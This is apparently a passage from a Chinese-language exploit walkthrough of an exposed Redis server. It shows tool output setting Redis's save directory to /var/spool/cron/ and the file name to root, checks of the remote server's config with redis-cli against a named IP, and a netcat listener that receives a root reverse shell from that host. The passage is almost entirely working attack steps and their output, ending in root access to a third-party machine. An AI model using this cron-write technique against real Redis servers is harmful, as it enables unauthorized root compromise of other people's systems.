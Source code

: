 ```
  
[INFO] #3 config set dir /var/spool/cron/
  

  
[INFO] #4 config set dbfilename root
  

  
[INFO] #5 save to file
  

  
[INFO] Exploit Successs...
  

  
console> quit
  

  
Good Bye!
  
```
  

  
查询远程Redis服务器的信息
  
```
  
reinhard$ redis-cli -h 42.62.67.198 config get dir
  
1) "dir"
  
2) "/var/spool/cron"
  
reinhard$ redis-cli -h 42.62.67.198 config get dbfilename
  
1) "dbfilename"
  
2) "root"
  
```
  

  
成功获得Redis服务器Shell
  
```
  
[root@fuzz.wuyun.org]# nc -l -vv 8080
  
Connection from 42.62.67.198 port 8080 [tcp/webcache] accepted
  
bash: no job control in this shell
  
[root@10-6-17-197 ~]# id
  
id
  
uid=0(root) gid=0(root) groups=0(root)
  
[root@10-6-17-197 ~]# cat /var/spool/cron/root
  
cat /var/spool/cron/root
  
```
